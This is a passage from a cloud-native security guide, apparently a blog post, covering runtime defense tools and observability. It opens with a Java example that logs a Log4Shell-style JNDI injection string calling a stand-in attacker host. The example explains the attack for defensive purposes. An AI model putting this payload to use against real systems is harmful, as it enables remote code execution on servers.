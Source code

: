 ```java
String userInput = "${jndi:ldap://attacker.com/a}";
logger.info("User input received: " + userInput);
```

This triggers a remote lookup and code execution.

### 🛡️ **Runtime defenses Tools:**

- **Datadog ASM**: Monitors app behavior and flags anomalies
- **AWS WAF / Azure WAF**: Blocks malicious requests at the edge
- **Falco / Sysdig Secure**: Detects suspicious system calls inside containers

> _Tip_: Runtime protection complements static analysis by catching anomalies during execution.

---

## 4️⃣ **Observability: Security Meets Performance**

### ⁉️ **Why it’s critical:**

You can’t secure what you can’t see. Observability helps you detect attacks, performance issues, and misconfigurations.

### 🔍 Key Capabilities

| Capability          | What it reveals                                          |
| ------------------- | -------------------------------------------------------- |
| System call tracing | File access, process spawning, container escape attempts |
| Resource metrics    | CPU/memory spikes from cryptojacking or DDoS             |
| Network monitoring  | Unexpected traffic between containers                    |

> _Note_ **Tools like Sysdig Secure** correlate logs, metrics, and traces to help you pinpoint root causes fast.

---

<div align="center" style="background-color:#fff; border-radius: 10px; border: 2px solid">
  <img src="image/1761760461535.png" alt="4Cs of Cloud Native Security" style="width: 60%">
</div>